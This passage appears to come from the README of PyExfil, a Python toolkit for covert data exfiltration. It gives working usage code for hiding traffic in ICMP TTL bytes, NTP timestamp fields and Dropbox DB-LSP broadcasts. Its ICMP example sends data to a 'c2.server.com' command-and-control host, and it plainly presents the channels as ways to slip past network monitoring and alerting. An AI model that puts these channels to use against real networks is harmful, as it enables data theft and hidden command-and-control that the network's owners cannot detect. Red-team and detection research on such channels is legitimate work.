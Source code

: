 #### ICMP TTL
This method uses the TTL byte of the header of ICMP. It will probably not be useful for any exfiltration but can be very useful for communication with C2 for one byte responses or instructions.

```python
from pyexfil.Comm.icmp_ttl import ICMP_TTL

# For Client
sender = ICMP_TTL(key = 'Password', dst_addr = 'c2.server.com')
sender.Run(data=183)

# For Server
listener = ICMP_TTL(key = 'Password', dst_addr = 'c2.server.com')
listener.Listen()
```

#### NTP Request
This method builds an NTP packet, assuming these are not as heavily monitored, and using the 8*4 bytes allocated for timestamping as the communication channel. This limits the communication to 32 bytes per packet in order to keep the structure of the NTP packet whole.

```python
# For client
from pyexfil.Comm.NTP_Body.client import Broadcast

Broadcast(data="Hello World", to='127.0.0.1', port=123, key="sekret")
# Notice that `to`, `port` and `key` are optional.

# For Server
from pyexfil.Comm.NTP_Body.server import Broker

b = Broker()
b.listen_clients()
# Customize the code to handle various commands.
```

#### DropBox LSP
Dropbox uses UDP broadcast packets to identify other Dropbox instances on the LAN and sync files between them. This exfiltration method can work in one out of two scenarios:
  * Unicast exfiltration - sending the data over DB-LSP packets to your server.
  * LAN Broadcast communication - assuming you're on the same LAN you can configure a listener and a sender to communicate over broadcast, masking the sender and receiver and in a way that might surpass some alerting mechnisms as there is "no direct connection" between them.

Shell Mode
```bash
$ sudo python dblsp.py

    To communicate between two hosts over broadcast you will need:
    	1) Setup an ecnryption key whichi will be identical on both hosts.
    		set key 123456
    	2) Know which host is going to broadcast the message:
    		set listener 10.0.0.1
    	3) Start active mode:
    		active 10.0.0.255

    Now just send messages with:
    	send "hello world"


DB_LSP > set key 123456
 key --> 123456.
DB_LSP > set listener 10.0.0.2
 listener --> 10.0.0.2.
DB_LSP > active 10.0.0.255
Starting active mode with 10.0.0.255.
```